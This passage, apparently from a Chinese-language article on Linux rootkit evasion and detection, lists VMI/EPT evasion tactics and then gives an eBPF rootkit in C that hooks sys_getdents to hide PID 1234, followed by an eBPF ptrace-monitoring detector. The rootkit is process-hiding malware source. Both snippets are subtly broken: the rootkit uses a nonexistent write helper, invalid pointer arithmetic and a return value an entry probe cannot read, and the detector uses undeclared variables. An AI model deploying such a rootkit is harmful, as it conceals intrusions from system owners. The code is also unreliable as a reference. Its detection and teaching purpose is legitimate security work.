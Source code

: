 **针对性**：

* **对抗LibVMI**：使VMI读取到伪造的内存数据，隐藏`task_struct`。
* **增强**：动态切换EPT映射，规避一致性检查。
* **检测方反制**：VMI验证EPT完整性。
* **二次绕过**：注入伪造中断，干扰VMI的内存解析。

### 六. 高级对抗案例

#### 6.1 基于netfilter提权漏洞的eBPF Rootkit

**背景**：2024年，某Rootkit利用netfilter提权漏洞加载eBPF程序，隐藏PID 1234，绕过Falco和bpftool。

eBPF程序示例：

```c
#include <linux/bpf.h>
#include <bpf/bpf_helpers.h>

SEC("kprobe/sys_getdents")
int hide_process(struct pt_regs *ctx) {
    struct linux_dirent *dirp = (struct linux_dirent *)PT_REGS_PARM2(ctx);
    long ret = PT_REGS_RC(ctx);
    for (int offset = 0; offset < ret; ) {
        struct linux_dirent *d = dirp + offset;
        char buf[256];
        bpf_probe_read_str(buf, sizeof(buf), d->d_name);
        if (bpf_strncmp(buf, sizeof(buf), "1234") == 0) {
            bpf_probe_write(dirp + offset, ret - offset - d->d_reclen, dirp + offset + d->d_reclen);
            ret -= d->d_reclen;
            PT_REGS_RC(ctx) = ret;
        } else {
            offset += d->d_reclen;
        }
    }
    return 0;
}
```

这里展示的eBPF程序附加kprobe到sys_getdents，读取目录项名称（d_name），如果包含目标PID（如'1234'），就通过bpf_probe_write移除该项，隐藏进程。技术细节上，bpf_probe_read_str安全地读取用户态数据到内核缓冲区，bpf_strncmp比较字符串，bpf_probe_write修改目录项列表。

eBPF程序通过BPF_PROG_TYPE_KPROBE加载，运行在内核态，效率高且难以检测。

#### 6.2 eBPF检测Rootkit的典型方法

##### 6.2.1 系统调用监控

```c
SEC("tracepoint/syscalls/sys_enter_ptrace")
int trace_ptrace(struct trace_event_raw_sys_enter *ctx) {
    // 1. 获取当前进程信息
    bpf_get_current_comm(&comm, sizeof(comm));

    long request = ctx->args[0]; //PTRACE_ATTACH(16) 和 PTRACE_PEEKTEXT(1)
    if (request != 16 && request != 1) return 0;

    // 3. 白名单放行（如 strace、gdb）
    if (comm[0] == 's' && comm[1] == 't' && comm[2] == 'r') return 0; // strace
    if (comm[0] == 'g' && comm[1] == 'd' && comm[2] == 'b') return 0; // gdb

    // 4. 打印警告（PID、进程名、操作类型）
    bpf_printk("Suspicious ptrace: %s (pid=%d) request=%d", comm, pid, request);
    return 0;
}
```
